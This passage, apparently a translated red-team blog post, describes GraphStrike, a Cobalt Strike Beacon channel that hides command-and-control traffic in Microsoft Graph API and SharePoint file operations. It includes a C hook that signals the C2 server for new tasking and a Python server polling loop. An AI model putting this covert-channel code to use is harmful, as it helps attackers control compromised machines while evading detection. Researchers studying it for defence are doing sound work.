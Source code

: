 ```plain
                                     C_PTR( U_PTR ( lpdwNumberOfBytesRead ) ) ) );

    // Only run the following if this is a GraphStrike Beacon
    if (pMemAddrs->graphStrike)
    {
        // If we are reading data from a GET request, set readTasking to TRUE
        if(pMemAddrs->activeGet && *lpdwNumberOfBytesRead > 0)
            pMemAddrs->readTasking = TRUE;

        // Beacon calls InternetReadFile until it reads 0 data. Once we are completely done reading output,
        // upload a blank file to the TS tasking file to signal server we are ready for more tasking.
        else if(pMemAddrs->readTasking && *lpdwNumberOfBytesRead == 0)
        {
            pMemAddrs->readTasking = FALSE;            
            LPVOID response = MakeWebRequest(pMemAddrs->hInternet, 
                                              GRAPH_ADDRESS, 
                                              pMemAddrs->httpGetUri, 
                                              PUT_VERB, 
                                              pMemAddrs->httpPostHeaders, 
                                              NULL, 
                                              pMemAddrs );
            if (response)
                pMemAddrs->Api.msvcrt.free(response);            
        }
    }

    return bResult;
};
```

这与 Beacon 仅上传到 Beacon 输出文件的通常流程相反，但在我们完成读取后，通过将 TS 任务文件清零，Beacon 可以向 GraphStrike 服务器发出信号，表明它已收到最后一个任务并准备好执行更多。这也可以防止 Beacon 多次运行相同的命令，因为下次 Beacon 签入时（即使 GraphStrike 服务器出现故障或停止响应），它会将空白 TS 任务文件解释为“无任务，下次签入” ，然后回去睡眠。GraphStrike 服务器的逻辑与此配对，等待直到它看到 Beacon 已检索并清零 TS 任务文件，然后再尝试发送更多文件。

同样的动态也存在于 Beacon 输出文件中。当 GraphStrike 服务器检测到 Beacon 输出文件包含数据时，它会下载输出，然后上传一个空白文件以将 SharePoint 中的文件清零。每次检测到 http-post 循环时，Beacon 在 HttpOpenRequestA\_Hook 中发出一个外带请求，首先检查 Beacon 输出文件是否为空或上次输出是否被 GraphStrike 服务器接收，然后才允许 Beacon 继续上传输出。综合起来，这种方法可以缓解上述两个问题。

# GraphStrike 服务器

GraphStrike 服务器的工作是充当 TS 和 Graph API 之间的穿梭机或转换器。与迄今为止讨论的内容相比，该组件的开发过程要简单、顺利得多。首先也是最重要的一点是，它不需要写成与位置无关的 C；为了方便起见，它是用 Python 编写的。紧随其后的是，我们不再尝试操纵、快捷方式和用胶带将现有的二进制文件粘在一起以使其执行我们想要的操作，而是完全控制程序。虽然比较简单，但仍有一些事情值得讨论。

当服务器启动时，它会获取 Graph API 的访问令牌，然后进入无限循环，其中调用“CheckBeacons”函数：

```plain
# Call CheckBeacons continuously to service Beacon threads
    while(True):

        # Refresh access token if necessary
        currTime = time.time()
        if currTime > refreshTime:
             access_token, refreshTime = GetAccessToken()

        CheckBeacons()
        time.sleep(0.5)
```
